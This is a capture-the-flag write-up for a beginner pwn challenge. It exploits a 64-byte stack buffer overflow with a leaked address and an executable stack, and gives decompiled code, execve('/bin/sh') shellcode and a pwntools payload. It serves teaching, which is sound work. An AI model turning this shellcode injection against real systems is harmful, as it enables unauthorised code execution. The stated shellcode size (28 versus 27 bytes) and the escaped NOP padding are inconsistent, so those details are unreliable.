

    	    <font size="10">The Hinge Whisper</font>

​		11<sup>th</sup> May 2026

​		Prepared By: w3th4nds

​		Challenge Author(s): w3th4nds

​		Difficulty: <font color=green>Very Easy</font>

​		Classification: Official


# Synopsis

**The Hinge Whisper** is a `Very Easy` difficulty pwn challenge themed around Crownspire's forgotten maintenance hatches. The binary leaks the stack address of a 64-byte buffer and then reads into it with `read(0, keyway, 0x50)`. The stack is executable and all modern mitigations are disabled, making this a classic introduction to **hand-written shellcode** and **stack buffer overflow** exploitation.

# Description

The room shouldn't exist. No record in Crownspire's registry places a private library on this floor, no watch schedule accounts for the hour it takes to reach it, and that's exactly why Rin is standing in it now. Dust holds the shape of a desk nobody's touched since before the white fire. Shelves half burned, half intact. In the far wall sits an old strongbox with a hatch built into its face, sealed the way a man seals something he never wants opened again, not by anyone, not even by himself on a better day.

Nobody sent Rin here. She came because the under-levels are hers to answer for, and lately every runner who comes back from the southern roads brings the same story: the Quiet Marches are moving, and whatever Alyss intends next, it isn't going to stop at a border. Maelor kept files on things he feared enough to bury, and Rin is betting that a girl who should have died in one of his purges made that list. If there's a way to know what's coming before it reaches her people, it's behind this hatch. One lock stands between her and an answer, and she means to have it before the watch changes.

## Skills Required

- Basic understanding of x86-64 assembly
- Knowledge of Linux syscalls (`execve`)
- Familiarity with stack layout (buffer, saved RBP, return address)

## Skills Learned

- How to write raw shellcode from scratch
- How to exploit a leaked stack address to bypass ASLR
- The structure of a classic stack-based buffer overflow with shellcode injection

# Enumeration

First of all, we start with a `checksec`:

```console
checksec the_hinge_whisper
Arch:       amd64-64-little
RELRO:      Full RELRO
Stack:      No canary found
NX:         NX unknown - GNU_STACK missing
PIE:        PIE enabled
Stack:      Executable
```

### Protections 🛡️

As we can see:

| Protection | Enabled  | Usage   | 
| :---:      | :---:    | :---:   |
| **Canary** | ❌       | Prevents **Buffer Overflows**  |
| **NX**     | ❌       | Disables **code execution** on stack |
| **PIE**    | ✅       | Randomizes the **base address** of the binary | 
| **RelRO**  | **Full** | Makes the **GOT read-only** after relocation |

The binary deliberately keeps the stack executable and omits the canary, because the intended solve is **shellcode injection**. However, **PIE and Full RELRO are enabled** to close alternative paths: you cannot rely on fixed binary addresses, and you cannot overwrite GOT entries. Without a libc leak, **ret2libc is not viable**. The only tongue the lock understands is the one you forge yourself.

### Program Interface

When we run the binary, we are greeted with Rin's observation:



The program leaks the exact stack address of the buffer. This removes any need for information leaks or brute force.

### Disassembly

Using Ghidra, the decompiled `service_hatch()` function looks like this:

```c
void service_hatch(void) {
  long in_FS_OFFSET;
  char keyway [64];
  
  printf("  [+] The keyway sits at: %p\n",keyway);
  printf("  [+] Forge your latch-key: ");
  fflush(stdout);
  read(0,keyway,0x50);
  return;
}
```

And `main()` is equally simple:

```c
int main(void) {
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,2,0);
  banner();
  service_hatch();
  printf("\n  [*] The lock clicks shut. Nothing happens.\n");
  return 0;
}
```

### Key Observations

1. **`read(0, keyway, 0x50)`** — The program reads exactly 80 bytes (`0x50`) into a 64-byte `keyway` buffer. This is a controlled overflow: 64 bytes fill the buffer, and the remaining 16 bytes overwrite the saved RBP (8 bytes) and return address (8 bytes).

2. **Stack leak** — The binary prints `&keyway` before reading. This gives us the exact address where our shellcode will land, eliminating any ASLR uncertainty for the stack.

3. **No NX** — The stack is executable (`-z execstack`). Anything we write into `keyway` can be directly executed by the CPU.

4. **No canary** — There is no stack canary to corrupt.

5. **PIE + Full RELRO** — The binary base is randomized, and the GOT is read-only after relocation. Without a libc leak, **ret2libc is not viable**. The only path forward is to bring your own code.

# Solution

The exploitation proceeds in two stages.

## Stage 1 — Read the leak

We parse the leaked address from the program output:

```python
r.recvuntil(b'at: ')
keyway_addr = int(r.recvline().strip(), 16)
```

## Stage 2 — Forge the latch-key

We write a small `execve("/bin/sh")` shellcode in x86-64 assembly. A compact 28-byte version looks like this:

```nasm
xor  rsi, rsi          ; argv = NULL
push rsi               ; null terminator on stack
mov  rdi, 0x68732f2f6e69622f  ; "/bin/sh" in little-endian
push rdi               ; push the string
mov  rdi, rsp          ; rdi = pointer to "/bin/sh"
xor  rdx, rdx          ; envp = NULL
xor  rax, rax          ; clear rax before setting syscall number
mov  al, 0x3b          ; syscall number for execve
syscall                ; invoke the kernel
```

We assemble this with pwntools or nasm, then construct the payload:

```python
shellcode = asm('''
    xor  rsi, rsi
    push rsi
    mov  rdi, 0x68732f2f6e69622f
    push rdi
    mov  rdi, rsp
    xor  rdx, rdx
    xor  rax, rax
    mov  al, 0x3b
    syscall
''')

payload  = shellcode
payload += b'\\x90' * (64 - len(shellcode))   # fill the 64-byte keyway
payload += p64(0xdeadbeef)                    # saved RBP (dummy value)
payload += p64(keyway_addr)                   # return address -> our shellcode
```

The layout on the stack becomes:

| Offset | Content |
|--------|---------|
| `0x00` | Shellcode (27 bytes) |
| `0x1b` | NOP sled padding to 64 bytes |
| `0x40` | Saved RBP (overwritten with junk) |
| `0x48` | Return address (overwritten with `keyway_addr`) |

When `service_hatch()` returns, it pops our forged address into `RIP` and begins executing the bytes we carved into the keyway. Since the stack is executable and we know the exact address, there is no guesswork.

## Stage 3 — The hatch opens

After sending the payload, we drop into an interactive shell:

### Comments

- **`read(0, keyway, 0x50)`** — The program reads a fixed 80 bytes into a 64-byte buffer. This is a clean, controlled overflow: no newlines to worry about, no unlimited reads. The player sends exactly the forged key, byte for byte.

- **`-z execstack`** — Modern systems use NX (non-executable stack) by default. Disabling it is a classic teaching choice for introductory shellcode challenges.

- **PIE + Full RELRO** — PIE randomizes the binary base, and Full RELRO makes the GOT read-only. These are intentionally enabled to **block ret2libc and GOT overwrite** shortcuts. The only viable path is raw shellcode.

- **No canary** — The stack canary is omitted so the buffer overflow is clean and predictable. Combined with the leak, this keeps the challenge purely about shellcode craftsmanship.

- **28-byte shellcode** — The shellcode is intentionally small to fit comfortably inside the 64-byte buffer with room to spare. Players can expand it (e.g., to `open-read-write` a flag file) without worrying about space.
